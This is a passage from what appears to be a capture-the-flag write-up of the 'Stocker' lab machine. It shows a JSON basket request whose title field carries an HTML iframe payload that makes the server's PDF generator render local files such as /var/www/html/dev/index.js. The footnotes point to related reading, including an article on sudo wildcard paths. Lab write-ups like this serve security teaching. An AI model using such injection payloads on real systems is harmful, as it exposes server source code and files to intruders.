 <img src="/assets/writeups/2023-06-19-stocker/pdf_index_html.png" alt="Index page of stocker.htb">

And there it is!

Now we can try to get the source code for the subdomain. Usually, ExpressJS servers use `index.js` or `main.js` as the entry-point for the server. Let's retrieve it!

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe width=800px height=800px src=/var/www/html/dev/index.js></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

<img src="/assets/writeups/2023-06-19-stocker/pdf_blank.png" alt="Possible route for index.js">


[^1]: Through the `Server` header.
[^2]: I discovered it in the P&D group of my College. We've needed to configure two subdomains of a web-app, and, researching, i've found about it. Make sure to [check the project!](https://github.com/entr0pie/api-tamagochi/tree/docker-nginx)
[^3]: If you want a deep dive into how this works, make sure to check the [David Hamann article](https://davidhamann.de/2023/02/24/beware-of-wildcard-paths-sudo/).